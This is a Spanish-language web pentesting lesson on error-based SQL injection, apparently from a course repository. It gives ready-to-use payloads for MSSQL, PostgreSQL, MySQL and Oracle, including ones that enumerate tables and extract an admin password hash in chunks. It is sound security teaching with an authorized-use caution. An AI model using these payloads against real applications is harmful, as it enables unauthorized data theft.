



# Lección 04: Inyecciones SQL basadas en error

[Inicio](../../../README.md) | [Pentesting Web](../../README.md) | [Módulo SQLi](../README.md) | [Anterior: UNION SQL injection y Burp Suite](../03-union-sqli-y-burp-suite/README.md) | [Siguiente: Inyecciones SQL a ciegas](../05-blind-sqli/README.md)

> [!CAUTION]
> La provocación deliberada de excepciones en motores de bases de datos y la extracción de datos mediante mensajes de error deben ejecutarse únicamente en entornos de laboratorio o bajo autorización expresa.

## Introducción

La **inyección SQL basada en error** (*Error-Based SQL Injection*) es una técnica de explotación en banda (*in-band*) que se utiliza cuando la aplicación web no proyecta los resultados de una consulta en la interfaz de usuario, pero sí captura y muestra directamente los mensajes de excepción técnica devueltos por el motor de base de datos.

El auditor fuerza al motor a evaluar una función o expresión inválida que contenga como argumento una subconsulta con los datos confidenciales a extraer. Cuando la función falla en tiempo de ejecución, el motor interpola el valor resultante de la subconsulta dentro del texto del mensaje de error, transfiriendo los datos directamente al atacante en la respuesta HTTP.



---

## 1. Arquitectura y condiciones de explotación

Para que una inyección basada en error sea viable, deben concurrir dos requisitos arquitectónicos:

1. **Inyección en el flujo de ejecución**: Capacidad de inyectar expresiones en contextos donde el motor evalúe subconsultas antes de emitir un fallo sintáctico o semántico.
2. **Exposición de excepciones (*Verbose Errors*)**: Desactivación del manejo genérico de errores en el servidor de aplicaciones, permitiendo que `display_errors = On` (en PHP), modos de depuración (`debug=True` en Django/Flask) o bloques `try/catch` mal configurados trasladen la excepción del driver de base de datos al cliente HTTP.

---

## 2. Explotación mediante conversión de tipos

La técnica más universal de inyección por error se fundamenta en forzar una **conversión implícita o explícita de tipos incompatible** (*type mismatch*). Cuando un motor de base de datos intenta convertir una cadena de texto arbitraria a un tipo numérico entero (`INTEGER`), la conversión falla y el motor incluye la cadena discordante en el mensaje descriptivo del error.

### Microsoft SQL Server (MSSQL)

En MSSQL, la función `CONVERT()` o el operador estándar `CAST()` fuerzan de forma determinista la conversión de tipo:

```sql
-- Sintaxis con CONVERT
CONVERT(INT, (SELECT @@version))

-- Sintaxis con CAST
CAST((SELECT @@version) AS INT)
```

#### Vector de inyección en parámetro vulnerable

En una consulta de filtrado numérico o textual:

```sql
SELECT title, body FROM articles WHERE id = 1 AND 1 = CONVERT(INT, (SELECT @@version));--
```

#### Respuesta observable del motor

```text
Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2019 (RTM-CU18) ...' to data type int.
```

#### Extracción de tablas y columnas en MSSQL

Debido a que `CONVERT()` requiere que la subconsulta devuelva exactamente una fila, se emplean cláusulas `TOP 1` combinadas con condiciones de exclusión (`NOT IN`):

```sql
-- Obtener la primera tabla de la base de datos actual
' AND 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables))-- -

-- Obtener la segunda tabla excluyendo la anterior
' AND 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN ('primera_tabla')))-- -
```

### PostgreSQL

En PostgreSQL, el operador `CAST()` o la notación compacta `::integer` generan un error de sintaxis de entrada para enteros:

```sql
-- Prueba de concepto de versión
' AND 1=CAST((SELECT version()) AS INT)--

-- Extracción concatenada de tablas del esquema público
' AND 1=CAST((SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_schema='public') AS INT)--
```

#### Respuesta observable del motor

```text
ERROR: invalid input syntax for integer: "PostgreSQL 14.5 (Ubuntu 14.5-0ubuntu0.22.04.1) on x86_64-pc-linux-gnu..."
```

---

## 3. Explotación mediante funciones XML y XPath en MySQL y MariaDB

En motores MySQL y MariaDB (a partir de la versión 5.1), las funciones de procesamiento de documentos XML validan la sintaxis de expresiones XPath. Si la ruta XPath incumple la especificación formal, el motor aborta la evaluación y muestra la ruta errónea en la excepción.



### La función `extractvalue()`

La función `extractvalue(xml_frag, xpath_expr)` extrae fragmentos XML. Al suministrar una expresión que inicia con un carácter no válido en XPath —como la virgulilla o tilde `~` (código hexadecimal `0x7e`)—, el motor produce un error `XPATH syntax error`:

```sql
-- Estructura canónica
AND extractvalue(1, concat(0x7e, (SELECT @@version), 0x7e))
```

#### Vector de inyección

```sql
SELECT * FROM users WHERE id = 1 AND extractvalue(1, concat(0x7e, (SELECT user()), 0x7e));
```

#### Respuesta observable

```text
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```

### La función `updatexml()`

La función `updatexml(xml_target, xpath_expr, new_xml)` reemplaza un nodo XML y presenta el mismo vector de fallo:

```sql
-- Estructura canónica
AND updatexml(1, concat(0x7e, (SELECT schema_name FROM information_schema.schemata LIMIT 1), 0x7e), 1)
```

---

## 4. Limitaciones de longitud y técnicas de paginación

Los mensajes de error en motores de base de datos imponen límites de truncamiento en el buffer de salida:

- En MySQL/MariaDB, `extractvalue()` y `updatexml()` limitan la salida del mensaje de error a **32 caracteres**.
- En MSSQL y PostgreSQL, los mensajes permiten buffers mayores (habitualmente entre 256 y 2048 caracteres), pero truncan salidas extensas.



### Paginación horizontal (registros múltiples)

Para iterar sobre múltiples filas sin violar la restricción de subconsulta escalar (subconsulta que devuelve más de una fila), se utiliza la cláusula `LIMIT offset, count`:

```sql
-- Fila 0
AND extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e))

-- Fila 1
AND extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 0x7e))
```

### Paginación vertical (cadenas largas)

Para valores que exceden los 32 caracteres (como hashes de contraseñas de 64 caracteres en SHA-256 o tokens JWT):

```sql
-- Primeros 30 caracteres
AND extractvalue(1, concat(0x7e, SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 30), 0x7e))

-- Caracteres del 31 al 60
AND extractvalue(1, concat(0x7e, SUBSTRING((SELECT password FROM users WHERE username='admin'), 31, 30), 0x7e))
```

---

## 5. Comparativa de funciones de error por gestor

| Gestor RDBMS | Mecanismo técnico | Carga útil estándar | Límite por mensaje |
|---|---|---|---|
| **MySQL / MariaDB** | Fallo de sintaxis XPath en `extractvalue()` | `extractvalue(1, concat(0x7e, (SELECT @@version), 0x7e))` | 32 caracteres |
| **MySQL / MariaDB** | Fallo de sintaxis XPath en `updatexml()` | `updatexml(1, concat(0x7e, (SELECT user()), 0x7e), 1)` | 32 caracteres |
| **MSSQL** | Conversión incompatible a `INT` | `CONVERT(INT, (SELECT @@version))` | ~256 - 512 caracteres |
| **PostgreSQL** | Conversión incompatible con `CAST()` | `CAST((SELECT version()) AS INT)` | Variable / trunca |
| **Oracle** | Fallo de función XML `CTXSYS.DRITHSX.SN()` | `CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))` | Variable |

---

## Cheatsheet

Referencia rápida del capítulo en formato PDF: [cheatsheet.pdf](./cheatsheet.pdf).

---

[Anterior: UNION SQL injection y Burp Suite](../03-union-sqli-y-burp-suite/README.md) | [Volver al índice del módulo](../README.md) | [Siguiente: Inyecciones SQL a ciegas](../05-blind-sqli/README.md)
